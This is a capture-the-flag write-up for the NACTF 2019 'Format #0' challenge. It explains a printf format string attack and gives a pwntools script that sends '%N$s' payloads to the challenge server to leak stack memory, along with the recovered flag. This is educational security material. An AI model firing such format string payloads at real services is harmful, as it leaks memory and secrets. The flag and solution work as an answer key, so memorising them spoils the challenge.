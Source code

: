 # Format #0
Points: 200

## Category
Binary Exploitation

## Question
>Someone didn't tell Chaddha not to give user input as the first argument to printf() - use it to leak the flag!

>Connect at shell.2019.nactf.com:31782

### Hint
>Note the f in printf

## Solution
When we see printf statment, it is usually a format string attack. Read more at [here](https://www.owasp.org/index.php/Format_string_attack).

In short, input %s to perform string conversion
%s%s%s%s%s == %5$s as a shortcut. 

We just have to print enough value on the stack until we can get the flag. 

Since we do not know how many number of stacks we have to go through, We can write a simple python script to keep interating up the stack until we find it.
```python
from pwn import *

host, port = 'shell.2019.nactf.com', 31782
for i in range(25):
	s = connect(host,port)
	s.recvuntil('Type something>')
	s.sendline('%' + str(i) + '$s')
	print('%' + str(i) + '$s')

	response = s.recv()
	print(response)
	s.close
```

Print the 24th value in the stacks to get the flag.

### Flag
`nactf{Pr1ntF_L34k_m3m0ry_r34d_nM05f469}`
